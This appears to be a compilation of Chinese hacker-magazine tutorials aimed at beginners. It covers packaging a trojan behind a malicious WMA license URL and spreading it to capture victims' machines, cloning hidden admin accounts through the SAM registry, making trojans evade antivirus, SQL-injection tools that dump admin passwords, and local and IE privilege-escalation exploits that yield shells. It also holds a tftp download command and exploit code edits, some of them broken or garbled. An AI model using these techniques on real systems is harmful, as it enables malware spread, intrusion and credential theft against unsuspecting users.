近一段时间以来，网络上利用 RM 文件来进行挂马的网页越来越多，一不小心就会被一个 RM 文件弹出的网页连接到黑客设置的网页木马中。今天我要为大家讲的可不是利用 RM 文件来抓取肉鸡，而是利用网络上的另外一种常见的多媒体文件——WMA 文件来抓取肉鸡，这样用得也可以在很短的时间内拥有大量属于自己的肉鸡。

恶意的 WMA 文件在制作步骤上和恶意的 RM 文件制作步骤看上去都差不多，只不过在最后制作网页木马（多媒体文件时采用的工具不同罢了）。当然还有一个很大的不同，那就是两种多媒体文件被利用的方式不同。恶意的 RM 文件是在标准的 RM 文件中，通过 RM 文件的编辑工具加入一段含有网页木马的网页地址后制作完成的，不存在利用任何的漏洞进行生成；而恶意的 WMA 文件则不同，它正是利用了微软的 Windows Media Player（WMP）播放器在数字权限管理加载任意网页的漏洞而制作完成了，WMP 播放器中的数字权限管理（DRM）中存在加载任意网页的漏洞，我们就是利用此漏洞加入网页木马的地址从而生成恶意的 WMA 文件的。

既然已经明白了 WMA 文件的形成原理，那么下面我们就开始动手制作恶意的 WMA 文件吧。首先我们来准备需要的工具和文件，其中包括 WINDOWS MEDIA DRM，我们就是通过这个程序，对准备好的 WMA 文件进行 Windows Media 权限管理器中的数字媒体文件进行打包的，木马程序和制作网页木马的工具，以及标准的 WMA 文件一个。

首先我们来配置一个木马的服务端程序，今天我们采用的木马是雨浩天推出的免杀版灰鸽子迷你版。通过“自动上线”按钮申请一个用于服务端程序连接的免费域名，然后，点击“服务端配置”按钮来配置一个服务端程序（图 1），最后点击“生成服务器”按钮就可以生成我们需要的木马服务端。下面我们将生成的服务端程序上传到我们的网页空间中。


有了木马服务端程序后，我们就可以开始制作网页木马了。我们采用的网页木马生成器是“南域剑盟网页木马生成器”。该工具利用了微软最新的 IE DHTML 引擎竞争条件漏洞制作而成。好了，现在我们开始运行这个木马生成器，在“URL”选项中设置上传到网络空间的木马服务端程序的网络地址，然后点击“生成文件”按钮（图 2），就会在该网页木马生成器所在的目录中生成一个名为 Script.txt 的文本文件，将该文本文件中的代码复制添加到网页文件代码中的 `<body>` 和 `</body>` 之间就可以了（图 3）。


既然网页木马已经制作完成了，现在就到了最关键的一步——制作恶意的 WMA 文件了。制作恶意的 WMA 文件的工具前面已经提到了，通过该工具打包的多媒体文件将加密并使用一个“密钥”锁定，该密钥存储在一个加密许可证中，并且它还会向数字媒体文件中添加其他的信息，例如用于获取许可证的 URL 地址，这里我们正好就是利用这个 URL 地址来添加我们配置好的网页木马的地址。

然后将打包的数字媒体文件保存为 Windows Media Audio 格式（文件扩展名为 .wma）或 Windows Media Video 格式（文件扩展名为 .wmv）。首先运行 WINDOWS MEDIA DRM，然后选择界面中的“自定义打包”选项卡，通过“源文件”选项后面的“浏览”按钮来随便选择一个标准的 WMA 文件（或是 WMV 文件），再点击“认证字符串”选项卡，接着在“认证 URL”选项中添加刚才制作完成的网页木马的网址（图 4），然后再返回到“自定义打包”选项卡，在“文件输出”选项中设置文件输出的目录，再在“输出文件后缀”选项中设置文件的后缀名为“.wma”，最后点击“打包加密”按钮可生成我们需要的 WMA 文件了（图 5）。


现在我们通过各种方法，比如 P2P 软件、BT 软件，以及在各种论坛、同学录中发布这个恶意的 WMA 文件，当网友通过本地的 WMP 播放器或嵌入到网页中的 WMP 播放器打开这个 WMA 文件后，就会激活漏洞从而连接到我们设置的网页木马地址，从而落入我们设置的陷阱，成为我们的一只肉鸡，呵呵。

到此为止，利用 WMA 文件来抓取肉鸡就为大家介绍到这。再简单地说说防范方法，由于这种恶意的 WMA 文件主要是利用了微软播放器的漏洞制作完成的，所以尽快安装微软公司提供的安全补丁才为上策，当然安装杀毒软件和网络防火墙也是必不可缺的。

> （文末涉及的相关工具：灰鸽子迷你版、南域剑盟网页木马生成器、光盘中有收录，Windows Media DRM 到相关下载地址获取。）

## 傻瓜黑客

### 浅谈 Win2003 中帐号的克隆和伪底


在 Win2003 下克隆帐号的想法很早就有了，但是一直没有尝试。最近时间比较宽裕，于是就有了本文的产生。首先我用一个用户名 lam 的 administrator 组成员登录，然后建立一个用户名为“IUSR_MachineName”的 user 组用户（图 1），将它禁用了并且在计算机管理中修改密码（图 2）。


接下来我们要做的是打开注册表的 SAM 权限。大家知道 Win2000 下打开 SAM 的方法常用有两种：一是用 psu.exe，二是用 regedt32。第一种方法在 Win2003 和 Win2000 略有不同，在任务栏鼠标右键直接打开任务管理器是不能看到进程的 PID 的，在此我们选择“进程→查看→选择列”，在 PID 前选勾。这样就可以看到进程的 PID 了，如图 3。


现在我们可以看到 winlogon 的 PID 值为 3240，如图 4。


用 `psu -p regedit -i 3240` 就可以打开注册表的 SAM 权限啦。第二种方法不需要工具，所以更受欢迎。在“开始”→“运行”下输入 regedt32，依次打开 `HKEY_LOCAL_MACHINE\SAM\SAM`。这时的 SAM 是不能打开的，右键菜单选择权限，添加当前登录用户进去，在完全控制和读取选项中打勾，如图 5。在这里 regedt32 只是用来修改权限，真正对注册表操作还要用 regedit。现在我们用 regedit 来打开注册表。对比 regedt32 和 regedit 界面，发现差不多，win2k 下 regedt32 可不是这个样子，比较土，呵呵。现在 `sam\domains\account\users\` 下是不是多了两个项了？^^


分别导出 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\000001F4`、`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\00000412`，以及 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\IUSR_MachineName`，并保存为各自名称的 reg 文件。将 `0x1f4.reg` 的 “F” 键值复制下来，粘贴到 `0x412` 的 “F” 键下，保存，导入 `IUSR_MachineName.reg`、`0x412.reg`，不再赘述。现在我们用 IUSR_MachineName 用户登录，如图 6。好了，现在已经成功登录到了这台机器。且慢，看 tsadmin 这里，我们看到了什么？如图 7。登录用户名应该为 IUSR_MachineName 的地方是 Administrator……^^ 我们再来看资源管理器中显示的是什么，如图 8。


图 8

资源管理器也显示的是 Administrator，但是进程中呢？如图 9。


图 9

哈哈，还是露馅了，进程中还是以 IUSR_MachineName 运行的。看看计算机管理中是否一切正常，如图 10。


图 10

这样看来克隆成功了，而且用户管理仍然是已禁用状态。我还做了一个实验，复制 administrator 对应的 `0x1f4` 中的 “F” 和 “V” 键的值到 `0x412.reg` 对应处，然后导入，结果怎么样呢？——这个用户不能登录了！

这是因为两个用户具有同样的权限特征不影响用户名标识特征化，所以可以完成用户登录操作；但如果用户基本识别特征 “V” 一样的话，初始化用户时会发生错误，`0x1f4` 的管理员首先被初始化，后面发现了和他一样基本识别特征的用户，自然就因为“文件重名，不能被创建”的规则而被忽略了，该用户名也就无效。所以不能对 “V” 进行复制，除非你确定就要让它有名无实。

实验做到这里我又有了一个新想法，如果我们克隆的是别的用户，那么用户登录查看里面看到的是哪位呢？

还是以实践来说话吧，尽管大概能想到结果，但是试验还要做的……

我们的克隆对象是 1 个名为 billnet 的 administrator 组用户，如图 11。现在建立 1 个名为 `lam_19418` 的 user 组用户，还是对 `lam_19418` 进行克隆，具体步骤参考前面方法，这里不重复描述了。

然后我们再来用克隆好的用户登录，会发现显示的当前用户是 billnet，资源管理器中也是如此，如图 12、图 13。


图 11


图 12


图 13

看到这里是否对你有帮助呢？如果你看见下面这些乱七八糟的值，而忽视了其中有非成对的 “1F5” 与 “1F4”，是否会放松了警惕呢？如图 14。

- 一般人检查的时候经常只注意 administrator 是否被克隆了，而对别的用户放松警惕；
- 不与 administrator 在同一个会话下，当然，如果你十分想和管理员来次亲密接触，那么还是推荐克隆 administrator 吧 :)

| 用户名 | RID(示例) |
|---|---|
| administrator | 1F4 |
| billnet | 402 |
| guest | 1F5 |
| IUSR_WEIDC-9CFY2UYWZ | 3EB |
| IWAM_WEIDC-9CFY2UYWZ | 3EC |

（图中为账户与 RID 对应值列表截图）

图 14

下面我们讲讲一个十分可能被误导的问题！网上经常可以看见建立隐藏的帐号，以及建立隐藏帐号的工具这样的东西。到底可行吗？感觉和事实往往不一样，我们来做次实验。

- 建立一个用户 `lam_19418$` 并且把它加入 Administrator 组，下面我们将这个用户克隆了。步骤依次为：
- 用 regedit 导出需要用到的 3 个 `.reg` 文件；
- 修改需要改的注册表文件；
- 在 cmd 下删除用户（注意：一定要在 cmd 下）；
- 导入注册表文件（`lam_19418$` 对应的两个 reg 文件）。

现在登录，看看计算机管理那里，果然隐藏了，如图 15。


图 15

那么现在我们重新启动，然后登录，你看到了什么？如图 16。


图 16

看到 `lam_19418$` 了吧？是的，所谓的隐藏账号完全是自欺欺人，只要机器一重新启动后就会显示出来。一个后面带有“$”的账号比一个正常的账号更容易叫人怀疑。我们用网上流传的隐藏账号工具也做了实验，结果完全一样，只要一重启又会显示出来。

据后面一点，克隆过的账号在 cmd 下和计算机管理中都不能手工删除，要删除必须到注册表里了。因为删除用户和增加用户一样，系统都会核对账户基本信息和权限等。克隆出来的用户，权限信息是非正常的，所以系统会报错。如图 17。


图 17

### 自己动手制作免杀工具

天涯

随着杀毒软件性能的不断提高，刚刚发布不久的木马程序就会被它成功扼杀，所以能拥有一款免杀的木马成为广大菜鸟朋友的梦想。我们经常可以在网上看到有人推出各种各样木马的免杀版，自己也想动手制作，可是，各种各样的困难又扑面而来。比如，如何进行源程序的脱壳、如何给程序加入花指令、如何修改文件特征代码、如何进行汇编操作等等。今天我将为和我一样的菜鸟朋友介绍三款简单易用的程序，它们可以帮助我们轻松实现制作免杀木马的愿望。

#### 一、木马免杀器

首先介绍的程序是木马免杀器，它并不是什么别的加壳软件的修改版本，也不是单单地从 PE 结构上修改特征码免杀，而是类似加壳软件将程序加壳保护，这个壳就是木马免杀器的核心。当然木马免杀器也同样可以当作一款加壳压缩的程序来使用……


图 1

如果 ASPACK、UPXSHELL、FSG 等。今天我们采用的压缩工具是 ASPACK。首先运行 ASPACK，然后点击“打开文件”面板下的“打开”按钮并选择我们刚刚生成的那个捆绑文件（图 2）。文件选择后，ASPACK 就会立即开始压缩捆绑文件……


图 2

#### 二、木马控制端自动免杀器

木马控制端自动免杀器是由大名鼎鼎的免杀专家浩天推出的一款专业级的木马免杀器。它主要用于对木马控制端的修改，用木马控制端自动免杀器加密后的木马控制端可以百分之百地通过杀毒软件的查杀，而且你还可以自己指定一个密码，避免木马被他人滥用。

领略一下它的强大功能。我们在使用木马控制端自动免杀器加密木马之前，一定要首先给你的木马程序脱壳，然后再进行使用。比如需要对黑洞木马进行免杀处理，首先要脱掉黑洞木马使用的 UPX 变异壳。

平时使用的脱壳工具对 UPX 变异壳处理起来都不行，我们这里使用 UPXFIX，它是变形的 UPX 壳的克星。运行 UPXFIX，首先点击“Browse”按钮来选择需要处理的黑洞木马程序，然后在“Decompress method”选项中选择“5”这一项，最后点击“Fix”按钮进行修复。


打开木马控制端自动免杀器，通过“文件名”后面的按钮来选择需要进行免杀处理的黑洞木马，然后在“密码”选项中设置密码，点击“加密”按钮即可完成黑洞木马的免杀制作（图 4）。


能对木马服务端程序起到免杀效果是源于程序会在木马服务端程序的头部加入设定的花指令代码，即使服务端程序已经进行了加壳处理，木马彩衣同样可以为它加上一件防杀的彩衣。

首先我们来寻找一个测试的程序，用 PEiD 为其查壳后显示为“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo”（图 5）。


现在运行木马彩衣，通过“浏览”按钮来选择刚刚那个测试程序，再在“防杀选项”中任意选择一个选项，这里我们选择“VC++6 外衣”选项，然后点击“穿上”按钮就可以实现免杀的操作（图 6）。


再用 PEiD 为其查壳就会显示为“Microsoft Visual C++ 6.0”（图 7），这样我们就为程序穿上了新的外衣。此外，用户还可以通过“只加区段”选项来自定义区段的名称和大小。另外，通过木马彩衣还可以重复地对服务端程序进行加壳处理。


#### 三、木马彩衣

第三款要介绍的工具是木马彩衣，它……（本段在页面下半部前被插图遮挡）。


### 用 telnet 感染入侵者

两年前，网上比较流行的是通过系统漏洞远程溢出直接拿到一个 systemshell，现在呢？通过远程溢出取得权限的概率越来越低，现在很多菜鸟黑客入侵思路是：先看站点是否有上传或 SQL 注入漏洞，拿到 webshell 后再通过其他途径取得 systemshell。

一般是通过服务器本地提权加入管理员账号，再开启 telnet 服务。今天的主题就是把“杀手锏”引到这里：关注 `\WINNT\system32\login.cmd` 文件。


注释：`@echo off` 是关闭回显；中间用 `echo` 命令输出欢迎语。telnet 到目标机器时即可看到效果（图 2）。


如图 3 所示，命令 `netstat -an >> c:\1234.txt` 是用 netstat 记录对方连接的 IP 地址，然后写入文件。注意使用 `>>` 追加而非 `>` 覆盖。

```bat
cd %HOMEDRIVE%/%HOMEPATH%/d
netstat -an >> c:\1234.txt
```


## 傻瓜黑客

“type c:\123.txt”干什么用的呢？看下就知道了（图4），等下我们 telnet 的时候就看见效果。当然了，入侵者的 IP 地址记录了还是没有用的，还要有入侵者进入你机器的时间啊，“time>>c:\1234.txt”这条命令就是记录入侵的时间。呵呵，最后还有一个“exit”就是让入侵者强行退出了。

我估计入侵者遇到我这样的机器肯定一阵狂吐血，然后倒地身亡。行了，我们 telnet 上去看看到底会是什么效果呢，拭目以待（图5）。再看看我们记录的文件（图6），怎么样，够厉害吧。

当然，如果对方不通过 telnet 登录我们的机器，而是通过其他方法得到 system shell，那怎么来惩罚对方呢？我们先站在入侵者的角度看看，如果我入侵一台机器，拿到权限以后要做的是什么？无非是上传后门或者木马什么的，再者就是先加一个隐藏账号。

说到上传文件，tftp 是黑客的最爱，原因在于：一是体积小，二是通过 UDP 的形式上传文件，而不需要经过 TCP 的三次握手。tftp 是通过 UDP 69 端口工作的。上传文件的命令是这样的：`tftp -i 131.107.64.1 get cat.exe`。

现在我的目的很明显，就是让入侵者不能使用 tftp 下载文件。怎么办呢？根源在一个文件上面：`c:\winnt\system32\drivers\etc\services`，打开看下。

很熟悉啊，如图8，是一些服务对应的端口。我就想，如果我把 TFTP 对应的端口改为 0 会是什么样子的啊？因为电脑始终是愚蠢的，它只会通过查找端口来对应服务，如果端口不对了，哪儿还有服务的存在？！实验结果很令人满意，大家看图9就知道了。

说了好多，很累。当然了，有防就有攻，有攻必有防，攻防都在彼此互相斗争中不断成长。人们常说：做人要厚道。不要把入侵者惹急了啊，适可而止。不然嘿嘿，他给你来点什么恶作剧，哭死你了。

### Connectix Virtual PC 还原隐藏菜单

大家都知道 Virtual PC 吧，呵呵，就是虚拟机了，如图1。在使用虚拟机的时候大家都知道有个窍门，就是每次用完虚拟机里面的操作系统后可以保存此时的状态，而不需要关闭虚拟机里面的操作系统，因为虚拟机里面的操作系统启动是很慢的。当然了，这也与你分配给它的内存有明显关系。

好了，不说废话了，言归正传，今天我要说的也是关于保存虚拟机操作系统后出现的问题。图1中我们有3个操作系统，第一个名字是实验，第2个名字是 Win98，第3个名字是 Windows 2000 Server。

后面两个操作系统我保存了以前的状态，并没有关闭系统。这样为的是：恢复用的时候更加方便，直接双击某个系统便可以恢复状态了。主角虽好，缺点总是并存的。当我们双击 Windows 2000 Server 想让它恢复的时候，问题出现了：先是一阵黑屏，然后虚拟机程序自动结束。

朋友不要急，把虚拟机程序再运行一下，再双击那个 Windows 2000 Server，我会很自信地告诉你：涛声依旧。这个方法我已经实验了 N 遍了，不会有用的。遇到这个问题后，粗暴的你只能点“新建 PC”按钮，然后按向导一步一步点下去，最后选择安装 Windows 2000 操作系统的 VHD 文件，到此为止新建结束。

我还想补充一下，图1中比如你选中“Windows 2000 Server”，点删除，镜像文件不会被删除的。有的朋友也许会说，重新建立一个能有多长时间啊，又不要重装里面的操作系统。话说得很正确，但是你要知道，重新建立一个的话，刚才那个 Windows 2000 Server 里面正在运行的东西将没有了。

比如你昨天在虚拟机写了一份秘密报告或者书信，写了一半忘记保存了，想今天再写，这个时候就着急了。可能有时候你会感觉不到，但如果真的影响到你的时候你就会叫天不灵叫地不应了啊，呵呵呵，只能叫我了。

下面我们来看如何解决这个问题。在图1我新建了一个名字叫“实验”的操作系统，里面其实是空的，解决问题的方法就在这个新建的“实验”操作系统上（名字任取，说白了就是新建 PC）。

激动人心的时候到了，用你的小手轻轻地拿着鼠标，然后双击那个名字叫“实验”的操作系统，如图2，两到三秒后关闭它，它的任务已经完成了。此时你满怀激动的心情双击那个 Windows 2000 Server，恭喜你了，成功恢复了，如图3。

顺便再告诉大家一个小秘密，比如一些软件有使用次数的限制，如使用10次就不能使用了，你猜到我要说什么了吗？你可以把这个限制软件放在虚拟机里面运行，运行后不要关闭软件，只要保存虚拟机当时的状态就可以了，下次直接恢复就可以用了。呵呵，不错吧！

### 黑客世界里的狂注幽灵

天涯衰草

说到现在各种各样的 SQL 注入，我想广大用户一定不会陌生吧，这么长时间以来已经被炒得沸沸扬扬。现如今，SQL 注入已经从最初的纯手工注入发展到通过现成的注入工具进行检测。正因为如此，各种各样的注入工具如雨后春笋般纷纷出现，比如常见的 NBSI、HDSI、啊D 注入工具等等。今天我为大家推荐的这款注入工具——狂注幽灵 II，虽然在名气上没有前面提到的那几款工具响亮，但是从功能上来讲，一点儿都不比它们逊色。

这款工具除了能够进行 SQL 注入外，还包括了 PHP 注入等很多功能。实践是检验真理的唯一标准，下面我们就通过实例来看这款工具是如何进行操作的，同样也可以感受狂注幽灵 II 中的各项功能。

运行狂注幽灵 II，我们这里并不马上就开始操作，而是首先对狂注幽灵 II 进行一些设置，这样才可以在以后的操作中更加得心应手。点击“参数设置”按钮，在“扫描设置”中分别对扫描的线程数、检测扫描延时、挂字典扫描延时等项目进行设置。狂注幽灵 II 默认的扫描线程数为 50，大家根据自己的网络速度调整所需要的线程数。在第一次使用时，尽量将线程数调到比较小，这样可以避免扫描过程中出现假死的情况。还可能是在进行注入破解时，如果出现乱码现象，可以通过调整线程的延时参数进行修正。另外在“检测字典”选项中，我们还可以对重载表字典、重载字段字典、重载数据库连接文件字典、以及重载后台地址字典选项中的字典进行新的添加（图1）。

现在，我们就可以开始进行 ASP 注入操作了。首先点击“注入检测”按钮，在“扫描网站”后输入你的目标网址，网址的输入必须是 `http://www.mzxx.net/` 这种形式，否则的话，程序将无法进行检测。另外，我们可以在“仅检测首页”和“整站检测”中进行选择，现在开始进行检测（图2）。一会儿工夫，就可以在“存在注入漏洞”项目下出现存在漏洞的网页地址了，任意选择其中的一个地址，添加到“使用注入点”选项中，接着点击“漏洞注入”按钮，程序就会自动切换到“漏洞注入”这一项。

程序会自动将刚刚用户选择的注入网址添加到“注入点”选项中，点击“开始”按钮后程序会自动对这个网址进行判断，并在提示栏出现提示，比如：“存在 ACCESS 注入，请点击<执行猜表名>继续！”。我们按照提示点击“执行猜表名”按钮来猜测表名，然后点击“执行猜字段名”来猜测字段，接着点击“执行猜字段值”把管理员的用户名和密码猜解出来（图3）。如果程序在进行检测的时候出现一些问题的话，我们可以在“注入基本信息”选项中通过设置读写字符来进行解决。如果狂注幽灵 II 在检测中判断远程数据库为 SQL 这类型的话，还可以通过“SQL 基本信息”按钮来对数据库进行查看（图4）。

除了常规的注入漏洞检测外，狂注幽灵 II 在“注入工具”选项下还包括了“暴力爆取 ACCESS 数据库物理地址”、“模拟 DOS 桌面”、“服务器文件列表”、“批量文件下载器”、“域名旁注工具”等多个注入工具。

“模拟 DOS 桌面”命令可以帮助用户在注入情况不是很好的情况下，通过输入 DOS 命令或 SQL 命令，就可以达到远程控制的目的。在这儿，用户可以选择使用 DOS 命令还是 SQL 命令，只要得到的权限足够，我们就可以向远程计算机中直接添加管理员账号。假如可以使用 SQL 命令的话，我们还可以直接删除文件中的添加项及各种数据库。除此以外，在“辅助工具箱”中，用户除了可以直接调用常见的 DOS 命令和 MSSQL 命令进行使用外，还可以进行其他很多操作。比如在“注册表读写器”中，对远程计算机中的各个键值进行读取、修改、删除等操作。另外，在“注入辅助工具”中还包括了很多实用的功能。

通过“服务器文件列表”命令和“批量文件下载”命令，不但可以对远程计算机中的文件进行查看，还可以对文件进行批量下载（图6）。通过“域名旁注工具”命令，我们还可以对某个域名下的虚拟主机进行查询。除此以外，可以对查询到的虚拟主机进行批量整站漏洞检测、批量管理后台扫描，以及网站预览等操作（图7）。

例如：远程管理员将 XP_CMDSHELL 存储删除了的话，可以通过“恢复 XP_CMDSHELL”按钮来进行直接恢复；通过“启动服务”按钮可以对设置的服务进行启动，比如我们钟爱的终端服务等（图5）。

至此，狂注幽灵 II 的主要功能就为大家介绍到这儿。除了上面介绍的这些功能外，狂注幽灵 II 还有其他功能要大家慢慢去体会。只要你熟悉其他的注入工具，我想狂注幽灵 II 也很快可以轻松使用的。

（本文涉及的相关工具：狂注幽灵 II，光盘中有收录。）

## 顺藤摸瓜——反击 W 空间陷阱

最近一段时间，网络钓鱼在国内外搞得沸沸扬扬，弄得网友人心惶惶。这不，一不小心差点就中了圈套，现在回想起来还心有余悸。那天，在某些论坛上瞎逛，登录后打开第一页，刚好在后排看到了一篇“钓鱼客之叫：黑软天堂”的帖子。帖子看上去也还算完整，只留了个地址……

一看原来是网盘流行的那种，打开之后发现首页上那可爱的个人档没了（确切地说是和 MM 聊天呢！）……感觉到了它的“空间”地址，重新启动了，重新登录了 QQ，从网盘里 DOWN 了 x-sniffer（一款不错的嗅探工具）又回到了那个空间……

找到了 pass.txt，打开一看，这样就拿到了他的邮箱密码了。发件箱和收件箱更是一个。下面是用户名、密码等信息……不过他自己的邮箱密码叫他再也不能害人。接着又通知了水滴 E 盘的管理员，希望能封了他的空间。虽然没收到效果，只好到它管理员的留言板上告诉大家不要去 DOWN 了……

（注：本文涉及的相关工具：x-sniffer，光盘中有收录）

## 菜鸟杂苑

### Windows 本地溢出

孟方明 sagi

可以说，Windows 本地溢出是一个古老的话题了，从早期的 mss.exe 中的 DEBUG 漏洞、WMI 服务的溢出漏洞、Windows Kernel 调试器的漏洞，到去年的 ms04-020 漏洞，以及《X 档案》2005 年第 7 期中介绍过的 ms05-012 漏洞，都可以轻松实现本地权限的提升。你只需要拥有一个普通权限的 shell，利用这些漏洞，就可以轻松地让自己获得系统的 administrator 权限。本月，Windows 再一次公布了两个新的本地溢出漏洞。

### 一、Windows CSRSS 本地溢出漏洞（ms05-018）

CSRSS 是 Win32 子系统的用户模式部分，负责控制台窗口、创建线程、删除线程及 16 位虚拟 MS-DOS 环境的某些部分。CSRSS 只为其他进程在一个地址空间上发出这类请求提供服务。而该漏洞就是发生在 CSRSS 用于验证某些消息的进程上。好了，关于该漏洞就简单介绍到此。下面我们主要来看一下溢出程序的使用。

假设我们已经得到了远程电脑的一个 cmd shell，当然只拥有 guest 权限，利用 net user 命令我们可以知道对方电脑中有七个账号，如图1。

直接运行 wincsrss，程序会给出使用格式 `wincsrss pid`，并且会自动给出 `winlogon.exe` 的 PID，如图2。我们运行 `wincsrss 252`，252 为刚才程序自动给出的 `winlogon.exe` 的 PID，如图3。我们重新使用 net user 命令，就会发现系统中已经成功添加了一个用户名为 e、密码为 asd#321 的拥有 administrator 权限的账号了，如图4。

该程序的使用方法与早期的 WMI 服务溢出利用程序很类似，都是添加一个后门账号。

#### 二、Windows 键盘事件权限提升漏洞

Windows 桌面应用程序在处理通过 `keybd_event()` function 函数发送的键盘事件时存在设计错误，攻击者可以通过向以更高权限运行的桌面应用程序（如 explorer.exe）发送恶意键盘事件，导致以目标用户的权限执行任意代码。该漏洞影响 Windows 2000/XP/2003 系统。

拿到原始 exploit 后，第一次编译估计都得报错，那是因为代码中有一个函数根本就没定义。所以大家可以简单地从代码中把下面这句删除或者注释掉：`doFormatMessage(GetLastError())`，改完后就可以保存再编译了。成功编译后我们就开始着手测试。首先打开一个 cmd.exe 窗口，然后输入以下语句：`Runas /profile /env /user:mfm cmd.exe`，回车后我们就可以得到一个新的 cmd.exe 窗口，而这个窗口的权限就局限于 mfm 这个用户权限中。为了测试你当然要把 mfm 这个账户的权限设置低一点，如图5。下面把要用到的 `keybd.exe`（就是编译好的漏洞利用程序）和 `pslist.exe`（查看进程的工具）复制到 C 盘根目录下（这个不是必须的，我是为了测试方便，不用每次都进入深层目录），然后在低权限的 cmd.exe 窗口中也切换到 C 盘根目录下，然后使用 `pslist.exe` 来查找 explorer 的 PID，如图6。得到的 PID 是 4568，接着我们就可以测试了，输入 `keybd.exe 4568`，结果如图7所示，弹出了一个新的窗口，这个时候我们接着做个 `telnet localhost 65535`，看看是不是得到了 shell 了？要是没有问题，就当宿主了。添加个用户看看，如图8所示，是不是成功了！？

然后在 main 函数中把原来 `pid = atoi(argv[1])` 改成 `pid = GetPid()`，就可以了。需要注意的是虽然把程序改成了不需要我们手动提供 explorer 进程的 PID，但由于该漏洞的利用方式决定了我们必须在使用该程序时仍需要提供一个任意参数。文中示例通过命令（如 `Keybd 4568`）触发，随后可省略先用 `pslist.exe` 查找进程的步骤，直接提升权限。作者还提到可直接构造如 `Keybd superlone` 这类命令，运行后会出现 `Now type "telnet localhost 65535" for your shell` 提示，再通过 telnet 获取 system 权限 shell。

测试到这里就应该结束了。大家在测试时要把默认输入法改成英文，否则测试可能不成功。后续作者提到在实际应用中不希望总是携带较大的 `pslist` 工具，因此考虑对程序做进一步改造（XP 以上系统通常自带 `tlist.exe`）。

我们来改造一下程序。由于这并非传统溢出漏洞，主要是给程序增加自动查找 `explorer` 进程 PID 的功能。在原 exploit 开头添加如下函数代码：

```c
if (hProc0) {
    printf("CreateToolHelp32Snapshot Failed:%d", GetLastError());
    return -1;
}

ZeroMemory(&pe32, sizeof(PROCESSENTRY32));
pe32.dwSize = sizeof(PROCESSENTRY32);
Process32First(hProc, &pe32);
while (Process32Next(hProc, &pe32));

if (!strncmp(pe32.szExeFile, "explorer.exe", 12)) {
    printf("GOT IT! PID IS %d\n", pe32.th32ProcessID);
    expid = pe32.th32ProcessID;
    break;
}

CloseHandle(hProc);
return expid;
```

```c
DWORD GetPid(void)
{
    PROCESSENTRY32 pe32;
    HANDLE hProc;
    DWORD expid;

    hProc = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    ...
}
```

> **sagi 注：**在原来的程序里，如果抓取参数不是 explorer 的进程 PID（如不加任何参数），程序也会在系统 65535 端口绑定一个 shell，但该 shell 只拥有 guest 权限。

（文章中涉及到的工具 `wincsrss.exe`、`winkeybd.exe`、`keybd.exe`、`keybdnew.exe` 已经收录于光盘中）

### 微软 IE `msdds.dll` 远程代码执行漏洞

孟方朋（-273℃@EST）

#### 一、漏洞简述

前些时候网上曾经公布了一个 0day，依然是关于微软 IE 的溢出漏洞。文中说明了 0day 的概念，并提到该漏洞当时缺少公开文档与补丁，测试环境中还涉及 `msdds.dll` 文件来源（Office 或 Visual Studio 安装后会存在）。

#### 二、漏洞利用

该漏洞在早期相关文章中曾被介绍。利用方式与已有 exploit 类似，关键在于替换不同漏洞组件对应的 CLSID。文中给出 `msdds.dll` 与 `blnmgr.dll` 的 CLSID 对照，并说明修改后可复用已有利用代码。

溢出程序使用格式示例：`perl msdds.pl test.html`（或将脚本转为 `msdds.exe` 后执行 `msdds.exe > test.html`），在当前目录生成测试 HTML 文件。


随后可通过 QQ 或网页发布方式诱导访问该页面，触发后可获得目标机器上的高权限命令执行（文中示例为 `cmdshell`）。

#### 三、总结

文章提醒读者：遇到类似漏洞可根据思路快速改写任意版本的 exploit。并附注提到相关程序/脚本已整理。

### Windows 2000 Resource Kit 寻宝

作者介绍 Windows 2000 Resource Kit 中一些实用工具，强调其在入侵后处理任务中的便利性，尤其是可替代可执行文件上传的脚本方式（vbs）。

#### exec.vbs

```
exec.vbs [/e <command>] [/x <processid>]
[/s <server>] [/u <username>] [/w <password>] [/o <outputfile>]
```

`/e` 执行命令，`/x` 结束进程；`/s /u /w` 可连接远程主机；`/o` 输出结果到文本。

#### ps.vbs / pstop.vbs

用于查看进程 ID 并配合 `exec.vbs` 杀进程。

#### fileman.vbs

```
(1) fileman.vbs /d <targetfile> ...
(2) fileman.vbs ... <targetfile> ... <newfile>
```

`targetfile` 指目标文件，支持删除、改名、复制、获取权限等操作参数。

#### restart.vbs

```
restart.vbs [/s <server>] [/u <username>] [/w <password>] [/o <outputfile>] [/l] [/r] [/p] [/q] [/f] [/t <time in seconds>]
```

`/l` 注销，`/r` 重启，`/p` 关机，`/t` 为延时秒数。

#### share.vbs

```
(1) share.vbs ...
(2) share.vbs /c /n <name> /p <path> [/t <type>] [/v <description>] ...
(3) share.vbs
cscript //nologo share.vbs /d /n:<name>
[/s:<server>] [/u:<username>] [/w:<password>] [/o:<outputfile>]
/l: 列出共享
/c: 创建一个新共享
/d: 删除一个共享
```

### 6：processor.vbs

processor.vbs 可以查看 CPU 的相关参数。listspace.vbs 和 listfreespace.vbs 可查看硬盘总空间与剩余空间，logmeminfo.vbs 可查看内存相关内容。它们组合使用可用于判断网络状态。

### 7：portmgr2.vbs

```
用法：
portmgr [-a digits] [-p port] [-c server] [-n number]
        [-t raw|rpc|local] [-h host address] [-q queue]
        [-m index] [-s snmp index] [-v community] [-2e] [-2d]

参数说明包含：增加端口、删除端口、列出端口、获取 TCP 端口设置、设置 TCP 端口、端口名等。
```


`-c`：服务名，`-t`：端口类型，很实用的工具。以上就是较实用的几个 vbs 工具，下面介绍图形界面下的工具。

### 1：srvinstw.exe

可以添加或删除本地或远程电脑上的服务，如图 1，强烈推荐使用。

### 2：shutdown

这个不是 Windows XP 自带的那个，图形界面的，可以自定义关机或重启、自定义信息和超时时间，如图 2。


### 3：Winexit.scr

一个关机的屏保。右击后可进入“配置”，可自定义信息和超时时间，也可发送安装，实用性较强。


这篇文章只是给小菜们看的，很多工具只要善于留心都能发挥意想不到的用途，就像把 Windows 2000 Resource Kit 变成“黑客工具箱”一样。


### 利用网站猎手 2.0 轻松获取动网后台权限

网站猎手是一款集网址收集、漏洞文件扫描、后台扫描、上传等功能于一体的注入工具，适合新手使用。文中介绍 2.0 版本，新增动网猎手、cookie 获取与修改等能力。

